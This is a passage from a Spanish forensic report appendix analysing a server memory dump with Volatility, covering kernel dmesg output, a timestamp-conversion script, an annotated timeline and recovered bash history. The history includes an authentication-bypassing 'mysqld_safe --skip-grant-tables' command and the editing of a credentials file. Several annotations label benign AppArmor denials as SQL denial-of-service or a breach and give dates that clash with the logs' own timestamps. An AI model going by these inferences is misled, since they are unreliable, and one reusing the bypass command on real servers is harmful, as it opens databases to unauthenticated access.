[7034851907.7] audit: type=1400 audit(1545393885.860:9): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/lib/connman/scripts/dhclient-script" pid=482 comm="apparmor_parser"
[7051552932.7] audit: type=1400 audit(1545393885.876:10): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/bin/lxc-start" pid=517 comm="apparmor_parser"
[7199498724.7] audit: type=1400 audit(1545393886.024:11): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/bin/man" pid=519 comm="apparmor_parser"
[11161377278.11] new mount options do not match the existing superblock, will be ignored
[12363474839.12] random: crng init done
[12363476830.12] random: 7 urandom warning(s) missed due to ratelimiting
[16900680066.16] kauditd_printk_skb: 5 callbacks suppressed
[16900681473.16] audit: type=1400 audit(1545393895.728:17): apparmor="STATUS" operation="profile_load" profile="unconfined" name="snap-update-ns.core" pid=961 comm="apparmor_parser"
[16971224711.16] audit: type=1400 audit(1545393895.796:18): apparmor="STATUS" operation="profile_load" profile="unconfined" name="snap.core.hook.configure" pid=963 comm="apparmor_parser"
[19172179813.19] audit: type=1400 audit(1545393898.000:19): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/5328/usr/lib/snapd/snap-confine" pid=1033 comm="apparmor_parser"
[19172634993.19] audit: type=1400 audit(1545393898.000:20): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/5328/usr/lib/snapd/snap-confine//mount-namespace-capture-helper" pid=1033 comm="apparmor_parser"
[19190877440.19] audit: type=1400 audit(1545393898.016:21): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap-update-ns.core" pid=1038 comm="apparmor_parser"
[19255303345.19] audit: type=1400 audit(1545393898.080:22): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.core.hook.configure" pid=1040 comm="apparmor_parser"
[20044096523.20] audit: type=1400 audit(1545393898.868:23): apparmor="STATUS" operation="profile_load" profile="unconfined" name="snap-update-ns.amazon-ssm-agent" pid=1115 comm="apparmor_parser"
[20048992141.20] audit: type=1400 audit(1545393898.876:24): apparmor="STATUS" operation="profile_load" profile="unconfined" name="snap.amazon-ssm-agent.amazon-ssm-agent" pid=1117 comm="apparmor_parser"
[20053640745.20] audit: type=1400 audit(1545393898.880:25): apparmor="STATUS" operation="profile_load" profile="unconfined" name="snap.amazon-ssm-agent.ssm-cli" pid=1119 comm="apparmor_parser"
[343815640354.343] systemd: 36 output lines suppressed due to ratelimiting
[343819811212.343] systemd[1]: systemd 237 running in system mode. (+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD -IDN2 +IDN -PCRE2 default-hierarchy=hybrid)
[343819860527.343] systemd[1]: Detected virtualization xen.
[343819868348.343] systemd[1]: Detected architecture x86-64.
[344163440924.344] systemd[1]: Stopping Journal Service...
[344166748005.344] systemd-journald[393]: Received SIGTERM from PID 1 (systemd).
[344191632037.344] systemd[1]: Stopped Journal Service.
[344193359863.344] systemd[1]: Starting Journal Service...
[344209913346.344] systemd[1]: Started Journal Service.
[388149683405.388] audit: type=1400 audit(1545394267.287:26): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/bin/man" pid=9951 comm="apparmor_parser"
[388150220347.388] audit: type=1400 audit(1545394267.287:27): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="man_filter" pid=9951 comm="apparmor_parser"
[388150640322.388] audit: type=1400 audit(1545394267.287:28): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="man_groff" pid=9951 comm="apparmor_parser"
[388935289550.388] SGI XFS with ACLs, security attributes, realtime, no debug enabled
[394016817570.394] audit: type=1400 audit(1545394273.155:29): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default" pid=10795 comm="apparmor_parser"
[394017449828.394] audit: type=1400 audit(1545394273.155:30): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default-cgns" pid=10795 comm="apparmor_parser"
[394017954690.394] audit: type=1400 audit(1545394273.155:31): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default-with-mounting" pid=10795 comm="apparmor_parser"
[394018487638.394] audit: type=1400 audit(1545394273.155:32): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default-with-nesting" pid=10795 comm="apparmor_parser"
[394184258557.394] audit: type=1400 audit(1545394273.323:33): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/sbin/dhclient" pid=10797 comm="apparmor_parser"
[394184852626.394] audit: type=1400 audit(1545394273.323:34): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-client.action" pid=10797 comm="apparmor_parser"
[394185330873.394] audit: type=1400 audit(1545394273.323:35): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-helper" pid=10797 comm="apparmor_parser"
[394185765851.394] audit: type=1400 audit(1545394273.323:36): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/connman/scripts/dhclient-script" pid=10797 comm="apparmor_parser"
[394196588105.394] audit: type=1400 audit(1545394273.335:37): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/bin/lxc-start" pid=10799 comm="apparmor_parser"
[394269978275.394] audit: type=1400 audit(1545394273.407:38): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/bin/man" pid=10801 comm="apparmor_parser"
[432983200194.432] kauditd_printk_skb: 12 callbacks suppressed
[432983201820.432] audit: type=1400 audit(1545394312.118:51): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default" pid=12672 comm="apparmor_parser"
[432985982514.432] audit: type=1400 audit(1545394312.122:52): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="lxc-container-default-cgns" pid=12672 comm="apparmor_parser"
[432986465264.432] audit: type=1400 audit(1545394312.122:53): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="lxc-container-default-with-mounting" pid=12672 comm="apparmor_parser"
[432986978760.432] audit: type=1400 audit(1545394312.122:54): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="lxc-container-default-with-nesting" pid=12672 comm="apparmor_parser"
[433153679997.433] audit: type=1400 audit(1545394312.286:55): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/sbin/dhclient" pid=12675 comm="apparmor_parser"
[433154323395.433] audit: type=1400 audit(1545394312.290:56): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-client.action" pid=12675 comm="apparmor_parser"
[433154810248.433] audit: type=1400 audit(1545394312.290:57): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/NetworkManager/nm-dhcp-helper" pid=12675 comm="apparmor_parser"
[433155243731.433] audit: type=1400 audit(1545394312.290:58): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/lib/connman/scripts/dhclient-script" pid=12675 comm="apparmor_parser"
[433167590815.433] audit: type=1400 audit(1545394312.302:59): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/usr/bin/lxc-start" pid=12677 comm="apparmor_parser"
[433240662059.433] audit: type=1400 audit(1545394312.374:60): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/bin/man" pid=12679 comm="apparmor_parser"
[21462442803498.21462] kauditd_printk_skb: 13 callbacks suppressed
[21462442805151.21462] audit: type=1400 audit(1545415341.020:74): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/sbin/mysqld" pid=773 comm="apparmor_parser"
[21463206148453.21463] audit: type=1400 audit(1545415341.784:75): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=867 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21463221380545.21463] audit: type=1400 audit(1545415341.800:76): apparmor="DENIED" operation="capable" profile="/usr/sbin/mysqld" pid=867 comm="mysqld" capability=2  capname="dac_read_search"
[21463255863431.21463] audit: type=1400 audit(1545415341.836:77): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=879 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[21756594961731.21756] audit: type=1400 audit(1545415635.164:78): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=2652 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21833553902942.21833] audit: type=1400 audit(1545415712.122:79): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3061 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21875757992232.21875] audit: type=1400 audit(1545415754.321:80): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3542 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22018568104327.22018] audit: type=1400 audit(1545415897.129:81): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3758 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22018607698200.22018] audit: type=1400 audit(1545415897.169:82): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3763 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[22074531220184.22074] audit: type=1400 audit(1545415953.092:83): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4539 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22210765671468.22210] audit: type=1400 audit(1545416089.324:84): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4632 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22210807976537.22210] audit: type=1400 audit(1545416089.368:85): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4640 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[22273491157183.22273] audit: type=1400 audit(1545416152.047:86): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/sbin/mysqld" pid=4768 comm="apparmor_parser"
[22273549967523.22273] audit: type=1400 audit(1545416152.107:87): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4786 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22273604163691.22273] audit: type=1400 audit(1545416152.159:88): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4801 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22277537601294.22277] audit: type=1400 audit(1545416156.095:89): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4860 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22280230105408.22280] audit: type=1400 audit(1545416158.786:90): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4912 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22282295921818.22282] audit: type=1400 audit(1545416160.850:91): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/sbin/mysqld" pid=4947 comm="apparmor_parser"
[22282854213630.22282] audit: type=1400 audit(1545416161.410:92): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5019 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22282898519612.22282] audit: type=1400 audit(1545416161.454:93): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5027 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[22419123420018.22419] audit: type=1400 audit(1545416297.675:94): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5121 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22419167903891.22419] audit: type=1400 audit(1545416297.719:95): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5125 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[25524580731645.25524] audit: type=1400 audit(1545419403.049:96): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine" pid=6200 comm="apparmor_parser"
[25524581172130.25524] audit: type=1400 audit(1545419403.049:97): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine//mount-namespace-capture-helper" pid=6200 comm="apparmor_parser"
[25524661228460.25524] audit: type=1400 audit(1545419403.129:98): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.core.hook.configure" pid=6203 comm="apparmor_parser"
[25524667927860.25524] audit: type=1400 audit(1545419403.137:99): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="snap-update-ns.core" pid=6205 comm="apparmor_parser"
[25525728627714.25525] audit: type=1400 audit(1545419404.197:100): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap-update-ns.amazon-ssm-agent" pid=6264 comm="apparmor_parser"
[25525731681561.25525] audit: type=1400 audit(1545419404.201:101): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.amazon-ssm-agent.amazon-ssm-agent" pid=6265 comm="apparmor_parser"
[25525734393872.25525] audit: type=1400 audit(1545419404.201:102): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.amazon-ssm-agent.ssm-cli" pid=6266 comm="apparmor_parser"
[25525776327926.25525] audit: type=1400 audit(1545419404.245:103): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine" pid=6271 comm="apparmor_parser"
[25525776541774.25525] audit: type=1400 audit(1545419404.245:104): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine//mount-namespace-capture-helper" pid=6271 comm="apparmor_parser"
[25525795866859.25525] audit: type=1400 audit(1545419404.265:105): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap-update-ns.core" pid=6273 comm="apparmor_parser"
[66030429896299.66030] new mount options do not match the existing superblock, will be ignored
[1108227154620838.1108227] lime: version magic '4.15.0-42-generic SMP mod_unload ' should be '4.15.0-1021-aws SMP mod_unload '
[1109556640120032.1109556] lime: loading out-of-tree module taints kernel.
[1109556640155159.1109556] lime: module verification failed: signature and/or required key missing - tainting kernel
~~~

[Volver al texto del comando en la Sección 3.4.6.](#346-comando-001)

---

#### 8.4.003.004.006.002. Resumen del comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_dmesg > /home/jrodg85/informe-linux_dmesg.txt`.

Para los cálculos de tiempos se ha usado el siguiente script de Python.

~~~Python
from datetime import datetime, timedelta

# Initial timestamp in UTC
initial_timestamp = datetime(2018, 8, 28, 10, 23, 7)

# Additional microseconds
additional_microseconds = 0.0 #insertar aquí el timestamp

# Convert microseconds to seconds for timedelta
additional_seconds = additional_microseconds / 1_000_000

# Calculate new datetime
new_datetime = initial_timestamp + timedelta(seconds=additional_seconds)
print("new_datetime: ",new_datetime.isoformat())
~~~

Explicado el script anterior, un resumen de los datos de interés para este análisis forense de este servidor es el siguiente:

~~~Shell
# Establecimiento del tiempo origen de tiempos donde el 28 de Agosto de 2018 a las 10:23:07 UTC el cual arranca el servidor. Se considera que el tiempo [0.0] es el origen de tiempos del sistema marcado en microsegundos.

[0.0] Linux version 4.15.0-1021-aws (buildd@lcy01-amd64-001) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Aug 28 10:23:07 UTC 2018 (Ubuntu 4.15.0-1021.21-aws 4.15.18)

# Se descarta información relativo al arranque del servidor, la cual tiene marcada el tiempo [0.0], ya que sería el 1 de enero de 1979. Se mantiene la relevante la cual se explica a continuación.

# El Servidor es una Máquina virtual

[0.0] Hypervisor detected: Xen HVM

# Memoria disponible y su distribución.

[0.0] Memory: 983488K/1048180K available (12300K kernel code, 2391K rwdata, 3908K rodata, 2372K init, 2376K bss, 64692K reserved, 0K cma-reserved)

# Seguridad.

[228243285.0] evm: security.selinux
[232011134.0] evm: security.SMACK64
[236008501.0] evm: security.SMACK64EXEC
[240007990.0] evm: security.SMACK64TRANSMUTE
[244004736.0] evm: security.SMACK64MMAP
[248007490.0] evm: security.apparmor
[252007875.0] evm: security.ima
[255626852.0] evm: security.capability

## EL RCT no coincide con el timestamp!!!, puede ser una coordinación de tiempos. el 28 de agosto de 2018 a las 10:27:31 UTC..

[264281367.0] RTC time: 12:04:38, date: 12/21/18

# Reinicio del Servidor.  1 de septiembre de 2018 a las 09:53:22 UTC

[343815640354.343] systemd: 36 output lines suppressed due to ratelimiting
[343819811212.343] systemd[1]: systemd 237 running in system mode. (+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD -IDN2 +IDN -PCRE2 default-hierarchy=hybrid)
[343819860527.343] systemd[1]: Detected virtualization xen.
[343819868348.343] systemd[1]: Detected architecture x86-64.

# Reinicio del servicio Journal 1 de septiembre de 2018 a las 09:59:10 UTC

[344163440924.344] systemd[1]: Stopping Journal Service...
[344166748005.344] systemd-journald[393]: Received SIGTERM from PID 1 (systemd).
[344191632037.344] systemd[1]: Stopped Journal Service.
[344193359863.344] systemd[1]: Starting Journal Service...
[344209913346.344] systemd[1]: Started Journal Service.

# Inicio de denegación de servicio SQL 3 de mayo de 2019 a las 20:10:29 UTC.

[21462442803498.21462] kauditd_printk_skb: 13 callbacks suppressed
[21462442805151.21462] audit: type=1400 audit(1545415341.020:74): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/sbin/mysqld" pid=773 comm="apparmor_parser"
[21463206148453.21463] audit: type=1400 audit(1545415341.784:75): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=867 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21463221380545.21463] audit: type=1400 audit(1545415341.800:76): apparmor="DENIED" operation="capable" profile="/usr/sbin/mysqld" pid=867 comm="mysqld" capability=2  capname="dac_read_search"
[21463255863431.21463] audit: type=1400 audit(1545415341.836:77): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=879 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0

# Denegación de servicio SQL 7 de mayo de 2019 a las 05:53:01 UTC

[21756594961731.21756] audit: type=1400 audit(1545415635.164:78): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=2652 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21833553902942.21833] audit: type=1400 audit(1545415712.122:79): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3061 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[21875757992232.21875] audit: type=1400 audit(1545415754.321:80): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3542 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0

# Denegación de servicio SQL 10 de mayo de 2019 a las 06:39:15.104327 UTC

[22018568104327.22018] audit: type=1400 audit(1545415897.129:81): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3758 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22018607698200.22018] audit: type=1400 audit(1545415897.169:82): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=3763 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[22074531220184.22074] audit: type=1400 audit(1545415953.092:83): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4539 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0

# 12 de mayo de 2019 a las 12:02:32.671468 UTC

[22210765671468.22210] audit: type=1400 audit(1545416089.324:84): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4632 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22210807976537.22210] audit: type=1400 audit(1545416089.368:85): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4640 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0

# 13 de mayo de 2019 a las 05:27:58 UTC, posible brecha y entrada no deseada en el sistema a traves de un ataque SQL. Se reemplaza un perfil en el sistema.

[22273491157183.22273] audit: type=1400 audit(1545416152.047:86): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/sbin/mysqld" pid=4768 comm="apparmor_parser"
[22273549967523.22273] audit: type=1400 audit(1545416152.107:87): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4786 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22273604163691.22273] audit: type=1400 audit(1545416152.159:88): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4801 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22277537601294.22277] audit: type=1400 audit(1545416156.095:89): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4860 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0

# 13 de mayo de 2019 a las 07:20:17 UTC

[22280230105408.22280] audit: type=1400 audit(1545416158.786:90): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=4912 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22282295921818.22282] audit: type=1400 audit(1545416160.850:91): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="/usr/sbin/mysqld" pid=4947 comm="apparmor_parser"
[22282854213630.22282] audit: type=1400 audit(1545416161.410:92): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5019 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22282898519612.22282] audit: type=1400 audit(1545416161.454:93): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5027 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0

# 14 de mayo de 2019 a las 21:55:10 UTC

[22419123420018.22419] audit: type=1400 audit(1545416297.675:94): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5121 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=0 ouid=0
[22419167903891.22419] audit: type=1400 audit(1545416297.719:95): apparmor="DENIED" operation="open" profile="/usr/sbin/mysqld" name="/sys/devices/system/node/" pid=5125 comm="mysqld" requested_mask="r" denied_mask="r" fsuid=111 ouid=0
[25524580731645.25524] audit: type=1400 audit(1545419403.049:96): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine" pid=6200 comm="apparmor_parser"
[25524581172130.25524] audit: type=1400 audit(1545419403.049:97): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine//mount-namespace-capture-helper" pid=6200 comm="apparmor_parser"
[25524661228460.25524] audit: type=1400 audit(1545419403.129:98): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.core.hook.configure" pid=6203 comm="apparmor_parser"
[25524667927860.25524] audit: type=1400 audit(1545419403.137:99): apparmor="STATUS" operation="profile_replace" info="same as current profile, skipping" profile="unconfined" name="snap-update-ns.core" pid=6205 comm="apparmor_parser"

# 19 de junio de 2019 a las 20:51:55.627714 UTC. Posible parcheo de la vulnerabilidad.

[25525728627714.25525] audit: type=1400 audit(1545419404.197:100): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap-update-ns.amazon-ssm-agent" pid=6264 comm="apparmor_parser"
[25525731681561.25525] audit: type=1400 audit(1545419404.201:101): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.amazon-ssm-agent.amazon-ssm-agent" pid=6265 comm="apparmor_parser"
[25525734393872.25525] audit: type=1400 audit(1545419404.201:102): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap.amazon-ssm-agent.ssm-cli" pid=6266 comm="apparmor_parser"
[25525776327926.25525] audit: type=1400 audit(1545419404.245:103): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine" pid=6271 comm="apparmor_parser"
[25525776541774.25525] audit: type=1400 audit(1545419404.245:104): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/snap/core/6130/usr/lib/snapd/snap-confine//mount-namespace-capture-helper" pid=6271 comm="apparmor_parser"
[25525795866859.25525] audit: type=1400 audit(1545419404.265:105): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="snap-update-ns.core" pid=6273 comm="apparmor_parser"
[66030429896299.66030] new mount options do not match the existing superblock, will be ignored
[1108227154620838.1108227] lime: version magic '4.15.0-42-generic SMP mod_unload ' should be '4.15.0-1021-aws SMP mod_unload '
[1109556640120032.1109556] lime: loading out-of-tree module taints kernel.
[1109556640155159.1109556] lime: module verification failed: signature and/or required key missing - tainting kernel
~~~

[Volver al texto del comando en la Sección 3.4.6.](#346-comando-002)

---

                 

#### 8.4.003.004.007.001. Comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_bash`.

~~~Shell
sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_bash
~~~

La respuesta de la consola es la siguiente:

~~~
Volatility Foundation Volatility Framework 2.6.1

Pid      Name                 Command Time                   Command

------- -------------------- ------------------------------ -------

20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt update
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo systemctl restart postfix
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   mysql -uroot -p
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd apache2/
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo vi /etc/mysql/debian.cnf 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail access.log.1
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/www/html
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo kill -9 4539
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -als
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysqld_safe --skip-grant-tables 
20577    bash                 2019-01-03 07:49:45 UTC+0000   H?=? &
20577    bash                 2019-01-03 07:49:45 UTC+0000   qls -l tmp
20577    bash                 2019-01-03 07:49:45 UTC+0000   qls -l tmp
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd 
20577    bash                 2019-01-03 07:49:45 UTC+0000   exit
20577    bash                 2019-01-03 07:49:45 UTC+0000   vi functions.php 
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /var/run/mysqld
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l /run
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -lt
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -lt| more
20577    bash                 2019-01-03 07:49:45 UTC+0000   vi access.log.1
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo mysql_secure_installation
20577    bash                 2019-01-03 07:49:45 UTC+0000   ls -l
20577    bash                 2019-01-03 07:49:45 UTC+0000   p?JU
20577    bash                 2019-01-03 07:49:45 UTC+0000   su mysql
20577    bash                 2019-01-03 07:49:45 UTC+0000   tail access.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   cat /var/log/mysql/error.log 
20577    bash                 2019-01-03 07:49:45 UTC+0000   cd /var/log
20577    bash                 2019-01-03 07:49:45 UTC+0000   find . -name functions.php
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo apt install python-certbot-apache
20577    bash                 2019-01-03 07:49:45 UTC+0000   sudo service apache2 restart
20577    bash                 2019-01-03 07:49:45 UTC+0000   ps -ef| grep mysql
